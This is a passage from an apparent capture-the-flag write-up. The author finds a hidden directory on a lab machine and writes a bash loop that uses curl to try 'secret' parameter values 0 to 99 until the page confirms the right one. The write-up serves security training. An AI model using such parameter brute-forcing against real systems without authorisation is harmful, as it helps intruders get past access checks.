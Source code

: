 **He left some unwanted text inside. We know now, that the secret is between 0 and 99, but in the same time, looking into the page we see that there was already a secret entered. Maybe it's a parameter of the page we could enter; let's go on:  + !! don't forget to modify the url and include the hidden found directory.**

``http://10.10.94.80/x/?secret=2``

![9](images/secreted_1.jpg)

**Our secret seems to be entered and read inside the page, so let's go ahead and create a mini brute-force script to check 100 possible variants.**

+ **I'm gonna use curl to get my requests and page data and i will write a shell script**

```bash
#!/bin/bash

for i in {0..99}
do
        # modify the ip address below and the hidden directory that you found
        curl --silent http://10.10.94.80/x/?secret=$i | grep right >> /dev/null

        if [ $? -eq 0 ]
        then
                echo "$i is our SECRET page"
                # modify the ip address below and the hidden directory that you found
                curl --silent http://10.10.94.80/x/?secret=$i
                break;
        else
                echo "Secret $i is wrong"
        fi
done

```
